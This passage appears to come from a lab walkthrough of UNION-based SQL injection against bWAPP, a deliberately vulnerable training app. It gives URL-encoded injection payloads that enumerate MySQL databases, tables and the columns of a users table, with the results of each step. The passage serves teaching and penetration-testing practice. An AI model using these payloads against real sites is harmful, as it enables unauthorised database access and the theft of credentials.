 Replace one of the unioned columns with "schema_name" in the select statement from the information_schema.schemata table to determine the names of the databases on a MySQL 5.7.25 server.

{:style="overflow: auto; white-space: nowrap;"}
 `?title='UNION+SELECT+1,schema_name,3,4,5,6,7+FROM+information_schema.schemata--+&action=1` 

 The default database name for bWAPP is "bWAPP".

#### Enumerating Tables

Select table_schema and table_name from information_schema.tables:

{:style="overflow: auto; white-space: nowrap;"}
`?title='UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+--+&action=1`

This returns all tables for all databases. If you only want to show the tables in bWAPP, append a WHERE clause to the previous query:

{:style="overflow: auto; white-space: nowrap;"}
`?title='UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+WHERE+table_schema="bWAPP"--+&action=1`

Results:

Database | Table
---------|---------
bWAPP    | blog
bWAPP    | heroes
bWAPP    | movies
bWAPP    | users
bWAPP    | visitors

#### Enumerating Columns

Let's check out the 'users' table. Select table_name and column_name from information_schema.columns where table_name is equal to "users":

{:style="overflow: auto; white-space: nowrap;"}
`?title='UNION+SELECT+1,table_name,3,column_name,5,6,7+FROM+information_schema.columns+WHERE+table_name="users"--+&action=1`


Results:

Table | Column
------|--------------------
users | id
users | login
users | password
users | email
users | secret
users | activation_code
users | reset_code
users | admin
users | USER
users | CURRENT_CONNECTIONS
users | TOTAL_CONNECTIONS
